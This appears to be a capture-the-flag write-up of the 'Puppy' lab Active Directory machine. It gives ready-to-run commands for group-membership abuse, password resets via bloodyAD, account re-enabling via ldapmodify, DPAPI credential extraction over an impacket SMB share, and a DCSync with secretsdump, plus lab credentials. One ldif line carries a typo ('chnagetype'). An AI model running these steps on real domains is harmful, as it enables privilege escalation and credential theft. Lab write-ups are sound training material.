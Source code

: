 Started with a nmap scan
```
53 DNS
88 kerberos
111 rpcbind
135 RPC
139  smb
445 SMB 
593
2049
```
And the room gives us a login to use `levi.james/KingofAkron2025!` with this login we can access the SMB but only have access to 3 shares with READ only access
```
IPC$
NETLOGON
SYSVOL
```
Ran bloodhound and `levi` is a member of HR and it has `GenericWrite` on Developers so we need to run this command to add us to the dev group 
```
net rpc group addmem "DEVELOPERS" "levi.james" -U "PUPPY.HTB"/"levi.james"%'KingofAkron2025!' -S "10.10.11.70"
and to check 
net rpc group members "DEVELOPERS"  -U "PUPPY.HTB"/"levi.james"%'KingofAkron2025!' -S "10.10.11.70"
```
and now we are dev group and can access the dev share on smb and there is a file called `recovery.kdbx` we cant use `keepass2john` it wont work so we have to use a script called `keepass2brute` on github and we cracked it to `liverpool` and now we have unlocked the file and we got users and passwords we can take this list of passwords and test it against are list of users and we got access to another account `ant.edwards:Antman2025!` and if you look in bloodhound we have `GenericALL` on `adam.silver` so we can change his password with this command
`bloodyAD --host 10.10.11.70 -d dc.puppy.htb -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER testpass123` but looking at this now in bloodhound the account is not active so we need to activate it 
```
ldapmodify -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
chnagetype: modify
replace: userAccountControl
userAccountControl: 66048
EOF
```
Now we ca winrm into `adam.silver` and now lets get new bloodhound data as this user looking around with the host machine with this user we can see there is a `backup` folder in the `C:\` and there is a site backup we can download this and look at it there is a file called `nms-auth-config.xml.bak` and there is creds for another user `steph.cooper:ChefSteph2025!` and we can winrm as this user looking at bloodhound there not much we can do but looking around the file system we found some DPAPI keys so we need to setup a smb share so we can get the files 
`impacket-smbserver share ./share -smb2share`
`C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\sid\file` 
`C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\file` 
now we can decrypt it with Impacket
`impacket-dpapi masterkey -file masterkey_blob -password ChefSteph2025! -sid sid` 
`impacket-dpapi credential -file credential_blob -key (key)` 
and we get the login for the next user `steph.cooper_adm:FivethChipOnItsWay2025!` looking at bloodhound agin we can dcsync to get the admin user 
`impacket-secretsdump 'puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!'@10.10.11.70`
and now we can evil-winrm into the admin user with the hash 